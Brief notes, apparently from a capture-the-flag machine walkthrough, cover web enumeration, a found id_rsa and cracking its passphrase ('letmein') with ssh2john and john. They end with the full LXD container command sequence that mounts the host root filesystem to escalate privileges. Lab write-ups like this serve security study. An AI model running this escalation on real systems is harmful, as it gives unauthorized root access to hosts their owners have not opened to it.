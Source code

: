 standard enum, /uploads/ page has dict, image and message	

/secret has id_rsa with encrypted key

ssh2john id_rsa and john showed key is letmein

lxc image import ./apline-v3.10-x86_64-20191008_1227.tar.gz --alias myimage



    lxc init myimage ignite -c security.privileged=true

    lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true

    lxc start ignite

    lxc exec ignite /bin/sh
